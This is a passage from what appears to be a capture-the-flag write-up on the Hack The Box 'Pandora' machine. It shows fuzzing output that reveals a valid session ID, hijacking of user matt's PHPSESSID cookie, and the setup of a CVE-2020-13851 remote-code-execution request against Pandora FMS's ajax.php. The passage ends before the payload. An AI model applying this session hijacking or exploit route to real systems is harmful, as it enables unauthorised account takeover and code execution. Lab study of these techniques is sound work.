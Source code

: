 ```
000000001:   200        247 L    665 W    14153 Ch    "09vao3q1dikuoi1vhcvhcjjbc6"
000000006:   200        247 L    665 W    14153 Ch    "8m2e6h8gmphj79r9pq497vpdre"
000000013:   200        247 L    665 W    14153 Ch    "j6cbj3ng5243q6ikad06ad65bp"
000000012:   200        247 L    665 W    14153 Ch    "hsftvg6j5m3vcmut6ln6ig8b0f"
000000015:   200        247 L    665 W    14153 Ch    "o3kuq4m5t5mqv01iur63e1di58"
000000014:   200        247 L    665 W    14153 Ch    "jecd4v8f6mlcgn4634ndfl74rd"
000000016:   200        247 L    665 W    14153 Ch    "oi2r6rjq9v99qt8q9heu3nulon"
000000011:   200        1393 L   4720 W   76805 Ch    "g4e01qdgk36mfdh90hvcc54umq"
000000019:   200        247 L    665 W    14153 Ch    "u5ktk2bt6ghb7s51lka5qou4r4"
000000017:   200        247 L    665 W    14153 Ch    "pjp312be5p56vke9dnbqmnqeot"
000000018:   200        247 L    665 W    14153 Ch    "rgku3s5dj4mbr85tiefv53tdoa"
000000020:   200        247 L    665 W    14153 Ch    "u74bvn6gop4rl21ds325q80j0e"

Total time: 0.794442
Processed Requests: 20
Filtered Requests: 0
Requests/sec.: 25.17489

```

One returns a much longer page! It just so happens to be the one assigned to matt.

#### User Session

I’ll go into the Firefox dev tools and under “Storage” > “Cookies” find the `PHPSESSID` cookie and replace it with the one from above. Now when I refresh `/pandora_console`, it loads logged in as matt:

[![image-20220519133326752](https://0xdfimages.gitlab.io/img/image-20220519133326752.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220519133326752.png)

There’s not a ton in here that I can do that’s interesting

### Path Split

There’s at least two unique ways to get from this access to RCE through Pandora. One is as Matt, exploiting CVE-2020-13851 to get execution. The other is to escalate to admin within Pandora FMS, and then upload a webshell.

### RCE #1: CVE-2020-13851

[This advisory](https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities) from coresecurity give nice detail about RCE via the `ajax.php` file. In the left-side menu, clicking “Events” > “View events” generates a similar POST request:

![image-20220519134753134](https://0xdfimages.gitlab.io/img/image-20220519134753134.png)

```

POST /pandora_console/ajax.php HTTP/1.1
Host: pandora.panda.htb:9001
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 2227
Origin: http://pandora.panda.htb:9001
Connection: close
Referer: http://pandora.panda.htb:9001/pandora_console/index.php?sec=eventos&sec2=operation/events/events
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq

```